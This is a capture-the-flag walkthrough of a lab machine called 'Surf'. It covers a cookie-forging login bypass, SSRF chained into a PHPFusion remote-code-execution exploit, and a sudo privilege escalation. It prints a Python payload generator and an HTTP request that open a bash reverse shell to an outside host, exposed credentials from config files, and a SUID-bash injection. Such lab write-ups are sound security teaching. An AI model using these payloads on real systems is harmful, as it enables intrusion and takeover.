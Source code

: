 # Surf

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.171   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:06 +08
Nmap scan report for 192.168.175.171
Host is up (0.17s latency).
Not shown: 41614 filtered tcp ports (no-response), 23919 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Surfing Blog --> Login Bypass

Port 80 took so long to load I didn't bother with it. Instead, I started with a `gobuster` scan:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.171 -t 100    
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.171
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 16:19:50 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.175.171/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.175.171/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.175.171/js/]
/administration       (Status: 301) [Size: 327] [--> http://192.168.175.171/administration/]
```

There's an administration directory present, and when viewed it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (24) (3) (2).png" alt=""><figcaption></figcaption></figure>

I tried default and weak credentials, but they don't work. When the traffic is viewed in Burp, we can see that there are some tokens being passed around:

<figure><img src="../../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>

The `auth_status` cookie is just a `base64` encoded string of `{'success':'false'}`. Afterwards, the `auth_status` cookie is appended to every subsequent login attempt. We can easily replace this with `true` and be granted access to the admin dashboard:

<figure><img src="../../../.gitbook/assets/image (25) (9).png" alt=""><figcaption></figcaption></figure>

### SSRF --> RCE

Within the website, there isn't much functionality, but there is a 'Check Server Status' function:

<figure><img src="../../../.gitbook/assets/image (15) (8).png" alt=""><figcaption></figcaption></figure>

Here's the HTTP request sent:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=nvesm039uh8qqsd19aqv25jhg3
Upgrade-Insecure-Requests: 1



url=http%3A%2F%2F127.0.0.1%3A8080
```

This looks vulnerable to a SSRF, and we can confirm it is.&#x20;

<figure><img src="../../../.gitbook/assets/image (12) (13).png" alt=""><figcaption></figcaption></figure>

Also, it tells us that the backend server is running PHPFusion. There are a few exploits available for PHPFusion:

```
$ searchsploit phpfusion    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
PHPFusion 9.03.50 - Persistent Cross-Site Scripting        | php/webapps/48497.txt
PHPFusion 9.03.50 - Remote Code Execution                  | php/webapps/49911.py
----------------------------------------------------------- ---------------------------------
```

We can download and view the RCE exploit to find that the exploit is triggered by sending a request to `/infusions/downloads/downloads.php?cat_id=${system(ls)}`.&#x20;

Using the exploit, we can create a payload generator as such:

```python
import base64
PAYLOAD = "bash -c  'bash  -i >& /dev/tcp/192.168.45.164/443 0>&1'  " # !!spaces are important in order to avoid ==!!
REQUEST_PAYLOAD = "/infusions/downloads/downloads.php?cat_id=$\{{system(base64_decode({})).exit\}}"

PAYLOAD_B64 = base64.b64encode(PAYLOAD.encode('ascii')).decode("ascii")
print(REQUEST_PAYLOAD.format(PAYLOAD_B64))
```

This would print `base64` encoded payload, which we can submit like so:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=rnaerbm2cbt3193qgev658ap3k
Upgrade-Insecure-Requests: 1



url=http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=$\{system(base64_decode(YmFzaCAtYyAgJ2Jhc2ggIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTY0LzQ0MyAwPiYxJyAg)).exit\}
```

Then we can get a reverse shell and grab the user flag:

<figure><img src="../../../.gitbook/assets/image (103) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### James Creds

As usual, we should be looking at credential files within the website. There are some in the `/var/www/html/config.php` file:

```php
<?php
// database settings
$db_host = 'localhost';
$db_port = '3306';
$db_user = 'phpfusion';
$db_pass = 'phpfusion';
$db_name = 'phpfusion';
$db_prefix = 'fusionc6Jb6_';
$db_driver = 'pdo';
define("DB_PREFIX", "fusionc6Jb6_");
define("COOKIE_PREFIX", "fusion33hvd_");
define("SECRET_KEY", "2RH443cPDc588jUkNtQ29fjHwJIS89Ez");
define("SECRET_KEY_SALT", "F6UU9T38pjH48myWA3HqkkN431l26GkI");
```

There are other files in the `/var/www` file present as well:

```
www-data@Surf:/var/www$ ls   
html  server
```

We can find credentials inside the `server` file for the user `james`.&#x20;

```php
www-data@Surf:/var/www/server/administration/config$ cat config.php 
<?php

//Note: This file should be included first in every php page.
error_reporting(E_ALL);
ini_set('display_errors', 'On');
define('BASE_PATH', dirname(dirname(__FILE__)));
define('APP_FOLDER', 'simpleadmin');
define('CURRENT_PAGE', basename($_SERVER['REQUEST_URI']));

require_once BASE_PATH . '/lib/MysqliDb/MysqliDb.php';
require_once BASE_PATH . '/helpers/helpers.php';

/*
|--------------------------------------------------------------------------
| DATABASE CONFIGURATION
|--------------------------------------------------------------------------
 */

define('DB_HOST', "localhost");
define('DB_USER', "core");
define('DB_PASSWORD', "FlyToTheMoon213!");
define('DB_NAME', "corephpadmin");

/**
 * Get instance of DB object
 */
function getDbInstance() {
        return new MysqliDb(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
}
```

We can then `su` to `james`:

<figure><img src="../../../.gitbook/assets/image (8) (11) (1).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password for `james`, we can check our `sudo` privileges:

```
james@Surf:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for james: 
Matching Defaults entries for james on Surf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User james may run the following commands on Surf:
    (ALL) /usr/bin/php /var/backups/database-backup.php
```

This file is owned by `www-data` and we can write to it:

```
james@Surf:/home$ ls -la /var/backups/database-backup.php
-rwxr-xr-x 1 www-data www-data 2758 Nov  9  2021 /var/backups/database-backup.php
```

The exploit would be to write a small snippet making `/bin/bash` an SUID binary and then executing it as `james`.&#x20;

We can use `vi` to edit the file to include `system("chmod u+s /bin/bash");`, and then use `:wq!` to force the save. Afterwards, when we can run the file using `sudo` as `james`:

<figure><img src="../../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

Then we can easily become the `root` user:

<figure><img src="../../../.gitbook/assets/image (35) (8).png" alt=""><figcaption></figcaption></figure>
